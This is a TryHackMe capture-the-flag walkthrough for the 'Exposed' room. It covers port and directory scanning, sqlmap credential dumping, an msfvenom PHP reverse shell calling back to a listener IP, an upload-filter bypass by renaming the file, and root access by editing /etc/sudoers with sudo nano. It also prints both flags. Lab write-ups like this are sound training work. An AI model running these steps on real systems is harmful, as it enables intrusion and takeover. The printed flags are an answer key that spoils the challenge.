 # Exposed | TryHackMe Write-up

##  Overview

**Room:** Exposed  
**Difficulty:** Easy  
**Tags:** Enumeration, SQL Injection, LFI, File Upload, Privilege Escalation

---

##  Enumeration

### Nmap

Quick port scan:

```bash
nmap -sC -sV -oN nmap_initial.txt <IP>
```



Full port scan:

```bash
nmap -p- -oN nmap_full.txt <IP>
```



**Found:**
- HTTP on port 1337  
- FTP (no useful information)

---

### Gobuster

Directory fuzzing on the web server:

```bash
gobuster dir -u http://<IP>:1337/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```


**Discovered directories:** `/admin_101`, `/phpMyAdmin`, `/admin`, `/javascript`

---

##  SQL Injection

Login to `/admin_101` through the login form.  
Intercept the request via Burp Suite and save it as `expose.req`.



### SQLMap

Check for SQL vulnerability:

```bash
python3 sqlmap.py -r expose.req --dump
```



**Database credentials found:**
- Email: `hacker@root.thm`  
- Password: `password123`

Use them to log in to the site.

---

##  File Upload Shell Access

Create a PHP reverse shell using msfvenom:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.146.237 LPORT=4444 -o exploit.php
```

Rename the file to `exploit.php.jpg` to bypass upload filters and upload it via the web form.



URL to trigger the shell:

```
http://<IP>:1337/upload_thm_1001/exploit.php
```

---

### Metasploit Listener Setup

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 10.11.146.237
set LPORT 4444
run
```



Reverse shell obtained with `www-data` privileges.

---

##  Privilege Escalation

### Accessing user `zeamkish`

Found credentials file:

```
/home/zeamkish/ssh_creds.txt
```

SSH login:

```bash
ssh zeamkish@<IP>
```

### Escalating to root

1. Check available sudo commands:

```bash
sudo -l
```

2. Find SUID binaries:

```bash
find / -type f -perm -4000 2>/dev/null
```

3. Use `/usr/bin/nano` for escalation:

```bash
sudo nano /etc/sudoers
sudo -i
```

Root shell obtained.

---

## ✅ Flags

- **User flag:** `THM{USER_FLAG_1231_EXPOSE}`  
- **Root flag:** `THM{ROOT_EXPOSED_1001}`

---

## 💡 Conclusion

We successfully completed the following steps:

1. Port and web resource scanning  
2. SQL injection to obtain credentials  
3. PHP reverse shell upload via File Upload  
4. Initial shell access as `www-data`  
5. SSH access to user `zeamkish`  
6. Privilege escalation to root via SUID binary

*Screenshots can be added to the `screenshots/` folder for clarity.*
